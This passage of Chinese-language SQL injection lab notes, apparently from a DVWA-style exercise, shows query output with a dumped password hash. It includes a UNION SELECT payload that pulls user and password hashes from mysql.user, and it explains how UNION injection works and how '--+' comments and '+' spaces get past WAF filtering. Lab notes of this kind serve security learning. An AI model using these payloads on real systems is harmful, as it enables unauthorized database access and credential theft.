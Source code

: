 ```bash
| 1          | smithy : 5f4dcc3b5aa765d61d8327deb882cf99  |
+------------+--------------------------------------------+
6 rows in set (0.00 sec)

# concat_ws作用：将多列的值按指定的分隔符连接起来。
# char(32,58,32) 实际上是表示空格、冒号和空格（即 : ），表示输出的格式将是 user : password 的格式。
# 6.猜解root用户与密码
select first_name,password from users where user_id=0 union select 1,group_concat(user,authentication_string) from mysql.user;
# 返回 root*6BB4837EB74329105EE4568DDA7DC67ED2CA2AD9
```

## 0x14 union联合注入原理
联合查询注入是联合两个表进行注入攻击，使用关键字union select 对两个表进行联合查询。要注意两个表的字段数要相同，不然会报错，错误是 different number of columns。  
order by N 或者 union select 1,2,3,4,5,6,7,...,N，通过这种方式可以判断查询结果的字段数。  
如果只想要一行数据，就在sql语句后添加 $limit 1$，即为只显示1行数据。

## 0x15 --+的作用
--是标准的SQL注释符，--后面的内容被视为注释，SQL引擎会忽略他们。一般情况下，空格字符可能会被过滤或者触发WAF相关规则，所以使用 $+$ 代替空格，在URL编码中，$+$被视为空格的编码形式，所以用$+$代替空格来达到绕过防护的目的。

